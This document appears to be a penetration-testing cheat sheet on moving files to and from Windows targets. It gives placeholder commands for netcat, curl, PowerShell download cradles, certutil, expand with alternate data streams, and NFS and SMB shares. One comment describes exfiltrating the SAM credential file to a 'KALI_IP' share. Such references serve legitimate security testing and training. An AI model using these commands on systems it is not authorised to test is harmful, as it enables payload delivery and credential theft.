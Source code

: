 # Windows File Transfers

## Netcat

##### start listener on target
```sh
nc -nlvp [PORT] > [RECIVING_FILE]
```
##### send the file
```bash
nc [IP] [PORT] < [SENDING_FILE]
```

## Curl

```sh
curl -F "upload=@[FILE]" https://[IP]/[FILE]
```

```bash
curl -o [FILE] https://[IP]/[FILE]
```

## PowerShell

```powershell
(New-Object Net.WebClient).DownloadFile("http://[IP]/[FILE]","C:\Path\To\[FILE]")
 ```
 ```powershell
Invoke-WebRequest 'http://[IP]/[FILE]' -OutFile "[FILE]"
```
```powershell
invoke-webrequest -uri http://[IP]/[FILE] -out C:\Path\To\[FILE]
```
```powershell
(New-Object System.Net.WebClient).UploadFile('http://[IP]/[FILE]','[FILE]')
```
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile(http://[IP]/[FILE]','[FILE]')"
```
```powershell
powershell iwr -uri http://[IP]/[FILE] -outfile [FILE]
```

##### PowerShell v3
```bash
(net.webclient).downloadstring("http://[IP]/[FILE]") > C:\Path\To\[FILE]
```
```bash
(net.webclient).downloadfile("http://[IP]/[FILE]", "C:\Path\To\[FILE]")
```


## certutil

```bash
certutil -urlcache -split -f http://[IP]/[FILE] [FILE]
```
```bash
certutil -verifyctl -f -split http://[IP]/[FILE] [FILE]
```

## expand
```bash
expand http://[IP]/[FILE] [FILE]
```

##### ADS
```bash
expand \\[IP]\[FILE] C:\Path\To\[FILE]:[FILE]
```

## NFS Shares
```sh
sudo mkdir -p /mnt/[SHARE]
mount -t nfs -o vers=3 [IP]:/[FOLDER]/ /mnt/[SHARE]
```

```sh
sudo mkdir -p /mnt/[SHARE]
mount -t nfs -o vers=2 REMOTE_IP:/[FOLDER]/ /mnt/[SHARE]
```
##### Unmount
```sh
sudo umount /mnt/[SHARE]
```
##### Mount at Boot
```sh
[IP]:/[SHARE]/[FOLDER]  /mnt/[SHARE]  nfs  defaults,vers=3  0  0
```

## SMB Shares

##### Mount SMB Share
```sh
sudo mount -t cifs -o vers=1.0 //[REMOTE_IP]/[SHARE] /mnt/[SHARE]
```
##### Host SMB Share
```sh
# to use for exfil: copy C:\Windows\Repair\SAM \\KALI_IP\[SHARE]\sam.save
sudo impacket-smbserver [SHARE] .
```
##### Upload from Target
```bash
copy C:\Path\To\[FILE] \\[IP]\[SHARE]\[FILE]
```
##### Upload with curl to Target
```sh
curl --upload-file /Path/To/[FILE] -u 'DOMAIN\[USER]' smb://[IP]/[SHARE]/
```
##### Use smbclient to Get ALL files from an SMB share
```bash
smbclient //[IP]/[SHARE]
RECURSE ON
PROMPT OFF
mget *
```

